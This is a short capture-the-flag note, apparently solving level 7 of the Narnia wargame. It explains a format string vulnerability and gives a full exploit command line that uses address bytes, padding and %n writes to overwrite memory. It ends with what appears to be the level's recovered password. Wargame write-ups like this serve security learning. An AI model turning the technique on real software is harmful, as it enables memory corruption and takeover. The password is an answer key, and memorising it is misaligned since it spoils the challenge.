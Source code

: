 format string vulnerability
put address on stack at beginning of format string, follow with length paddings, then %n to overwrite.
split into multiple overwrites to prevent too long format string
./narnia7 $(echo -ne "\x58\xc5\xff\xff")$(echo -ne "\x59\xc5\xff\xff")$(echo -ne "\x5b\xc5\xff\xff")$(printf 'a%.0
s' {1..23})%c%n$(printf 'a%.0s' {1..1123})%n$(printf 'a%.0s' {1..3201})%n
mohthuphog
